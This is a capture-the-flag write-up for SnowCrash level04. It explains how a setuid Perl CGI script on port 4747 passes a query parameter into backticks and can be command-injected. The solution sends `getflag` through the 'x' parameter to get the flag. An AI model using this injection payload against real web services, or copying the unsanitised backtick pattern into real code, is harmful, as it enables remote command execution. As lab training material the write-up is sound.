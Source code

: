 # Level04

## Research
---------------

```bash
level04@SnowCrash:~$ ls -l
-rwsr-s-r-x 1 flag04 level04 152 Mar 5 2016 level04.pl
```
Again this setuid, that means this program can executes commands as flag04.

```perl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
We can see 2 things:

1. We can see that localhost:4747 is used, as well as CGI. 
`CGI stands for Common Gateway Interface, it’s a protocol for executing scripts via web requests, and in the late 1990’s was the main way to write dynamic programs for the Web. It’s also the name of the Perl module we used [...] to code for the web.` <br/>
https://www.perl.com/article/perl-and-cgi/

2. The print uses \`\` (Backquotes), and any command put between backquotes will be executed.
https://www.tutorialspoint.com/unix/unix-quoting-mechanisms.htm

How to send a parameter to CGI?
`The first way to pass data is with the query string, (the portion of a URI beginning with ?), which you see in URLs like https://example.com/?foo=bar. This uses the “GET” request method, and becomes available to the program as $ENV->{QUERY_STRING}, which in this case is foo=bar (CGI programs receive their arguments as environment variables).`
https://www.perl.com/article/perl-and-cgi/



## Solution
---------------

Steps:
  - Open a web browser and connect to the VM IP address on port 4747 (for example: http://10.0.2.15:4747/)
  - Use the query string to pass the getflag command:
  ``` bash
  http://192.168.1.67:4747/?x=`getflag`
  ```
  We need to send \`getflag\` so that it will be executed (try echo \`getflag\` in terminal for example). `getflag` as a parameter will only print getflag.
 
Here we can found the token.
